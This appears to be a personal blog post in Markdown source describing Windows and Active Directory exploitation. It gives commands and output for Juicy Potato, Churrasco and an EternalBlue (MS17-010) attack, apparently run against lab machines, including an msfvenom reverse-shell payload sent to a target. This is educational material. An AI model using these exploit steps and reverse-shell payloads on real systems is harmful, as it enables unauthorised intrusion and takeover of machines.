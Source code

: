 ```yaml
---
layout: post
title: "Windows Exploitation"
author: "joelczk"
tags: Vulns
excerpt_separator: <!--more-->
---
```


Disclaimer: All exploits stated in this article are only for educational purposes and all the views expressed in this article are my own personal views and should not be associated with any other organizations/parties that I currently/used to represent.
<!--more-->

## Introduction to Active Directory
To start off, let me introduction all of you to a new term ```Active Directory```. Active directory is the directory service that was developed by Microsoft for a huge range of directory-based identity-related services, and is included in most of Windows Server operating systems.

A server that is running the Active Directory Domain Service is called the domain controller and its main role is to authenticate and authorize users who are accessing any service. It is also responsible for enforcing and assigning security policies for all the computers in the network. 

Lightweight Directory Access Protocol (LDAP) is an internet protocol that is used to access and maintain distributed directory information services over an Internat Protocol network.

Kerberos is a computer-network authentication protocol that uses tickets to allow nodes to communicate over an insecure network to prove their identity to one another in a secure manner.

Currently, Microsoft's Active Directory uses LDAP, Kerberos and DNS. 

## Kernel exploits
Let us now move into the more common kernel exploits that can be exploited on the Active Directory.

### Juicy Potato Exploit
This exploit leverages on the **SeImpersonatePrivilege** or **SeAssignPrimaryToken** that is enabled on the machine to elevate the local privileges to system privileges. Typically, such privileges would be enabled by default if the machine is running IIS or SQL services.

```
PS C:\> whoami /priv
 
PRIVILEGES INFORMATION
----------------------
 
Privilege Name                Description                               State  
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

However, one thing to note is that the Juicy Potato exploit does not work for all Windows version. It only works for specified Windows version:
- Windows Server 2008 R2
- Windows Server 2012
- Windows Server 2012 R2
- Windows Server 2016

Apart from that, we also require that the COM server has a unique CLSID for the exploit to work. 
*Note: COM server is an executable that implements a set of COM objects and CLSID is the globally unique identifier that identifies a COM object*

In such a case, we can use Juicy Potato exploit with the following command.
- p parameter : Program to launch. In this case, we have a shell.bat that will create a reverse shell payload
- l parameter : Port where the COM server is listening to. In this case, the port will be the port of the listener of our reverse shell.
```
.\JuicyPotato.exe -t * -p shell.bat -l <port>
```

### Churrasco exploit (MS09-012)

This exploit is similiar to that of the Juciy Potato exploit as explained earlier which leverages on token kidnapping, wherein the ```SeImpersonatePrivilege``` would have to be enabled for this exploit to work.

However, the difference between the Churrasco exploit and that of the Juicy Potato exploit is that the Churrasco exploit generally works for older Windows versions, while the Juicy Potato exploit works for newer versions of Windows.

Apart from that, we would also require access to the target server as ```nt authority\network service``` user.

```
c:\windows\system32\inetsrc>whoami
whoami
nt authority\network service
```

Finally, using the churrasco exploit would grant us privilege to execute any commands as the ```nt authority\system``` user.

```
C:\wmpub>.\churrasco.exe "whoami"
.\churrasco.exe "whoami"
nt authority\system
```

### Eternal Blue Exploit (MS17-010)

If you have been following world news closely, this Eternal Blue exploit would not be foreign to you. Yes, this is the very exploit that was used in the Wannacry attack in 2017, which was one of the largest ransomware attack thusfar. 

The Eternal Blue exploit affects any software that uses Microsoft's SMBv1 server protocol and it works by exploiting CVE-2017-0144, which then allows remote attackers to execute arbitary code by sending specially crafted messages via the SMBv1 server.

For this exploit to be carried out successfully, we would need access to the accessible named pipes. To check for this pre-requisite, we could use the checker.py script from this [repo](https://github.com/helviojunior/MS17-010)

```
┌──(HTB2)─(kali㉿kali)-[~/Desktop/MS17-010]
└─$ python checker.py 10.10.10.40
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched
 
=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: Ok (64 bit)
```

To create a reverse shell using this Eternal Blue exploit, we would need to first create a reverse shell payload using msfvenom

```
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.8 LPORT=4000 -f exe > rev_shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Finally, we will execute the Eternal Blue exploit to send the reverse shell payload to our target machine.

```
┌──(HTB2)─(kali㉿kali)-[~/Desktop/MS17-010]
└─$ python send_and_execute.py 10.10.10.40 rev_shell.exe
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: browser
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8003f21ba0
SESSION: 0xfffff8a00a9c2760
FLINK: 0xfffff8a008a22088
InParam: 0xfffff8a008a1515c
MID: 0x703
unexpected alignment, diff: 0xc088
leak failed... try again
CONNECTION: 0xfffffa8003f21ba0
SESSION: 0xfffff8a00a9c2760
FLINK: 0xfffff8a008a35088
InParam: 0xfffff8a008a2815c
MID: 0x703
unexpected alignment, diff: 0xc088
leak failed... try again
CONNECTION: 0xfffffa8003f21ba0
SESSION: 0xfffff8a00a9c2760
FLINK: 0xfffff8a008a42088
InParam: 0xfffff8a008a3c15c
MID: 0x703
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Sending file 6B2H4M.exe...
Opening SVCManager on 10.10.10.40.....
Creating service QwKt.....
Starting service QwKt.....
The NETBIOS connection with the remote host timed out.
Removing service QwKt.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```



TO BE CONTINUED...